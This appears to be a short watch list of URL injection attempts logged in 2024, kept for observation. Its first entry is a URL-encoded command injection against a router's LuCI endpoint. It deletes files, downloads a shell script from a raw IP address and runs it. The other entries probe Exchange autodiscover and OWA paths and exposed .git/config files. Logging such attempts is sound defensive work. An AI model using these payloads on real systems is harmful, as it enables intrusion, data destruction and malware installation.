 # h@ck-attempts - 2024
URL injecting attempts to watch out for...
- I do not support these actions. This is used for studying and observing.
## ATTEMPTS:
1. ../cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(rm%20-rf%20%2A%3B%20cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F94.156.8.244%2Ftenda.sh%3B%20chmod%20777%20tenda.sh%3B%20.%2Ftenda.sh)
2. ../autodiscover/autodiscover.json?@zdi/Powershell
3. ../owa/auth/x.js
4. ../backup/.git/config
5. ../log/.git/config
6. ../doc/.git/config

